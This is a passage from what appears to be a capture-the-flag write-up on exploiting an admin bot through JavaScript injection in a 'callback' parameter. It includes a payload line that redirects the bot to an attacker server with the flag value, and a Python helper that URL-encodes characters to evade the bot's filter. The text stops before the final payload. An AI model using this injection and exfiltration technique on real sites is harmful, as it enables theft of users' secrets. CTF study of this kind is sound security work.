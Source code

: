 *   We can get the admin to go to arbitrary `/share?...` by calling `/bot`
*   That can include a `callback` parameter, which is almost like JS injection,
    except that it is heavily guarded with escape functions.

So, overall plan of attack would be to:

*   Create user, log in
*   Generate a share with `/generate_link`. The text we put will be stored in
    the DB verbatim, but it will be escaped by `/get_style` / `/share`.
*   Save the share ID from the response
*   Call the bot with `/share?share_id=share_id&callback=<something smart>`
*   Inject enough JS from either "style" or "callback", that the bot page
    executes, approximately:
    
    ```javascript
    window.location.replace(MY_SERVER+"/"+document.getElementById("flag").value)`.
    ```
    Then, get the password from remote server logs.


# Crafting the explot

Turns out, we can ignore the "style" part and focus the exploit on `callback`.
We need to beat following protections:

## /bot handler protection:

```javascript
if "&&" in url or ";" in url or "|" in url or "(" in url or "{" in url:
    return "No free hats for you >:("
```

Let's urlencode these

```python
def botProof(s):
    return s.replace("&&", "%26%26").replace(";", "%3B").replace("|", "%7C").replace("(", "%28").replace("}", "%7B")
```

## safeview.js protection

```javascript
function escape(data) {
    var nopes = ["`", "+", "<", ">", "'", '"', "%"]
    var x = data
    nopes.forEach(noperino => {
        x = x.replaceAll(noperino, '');
    });
    x = x.replaceAll(/script/ig, '');
    x = x.replaceAll(/iframe/ig, '');
    return x
}
```
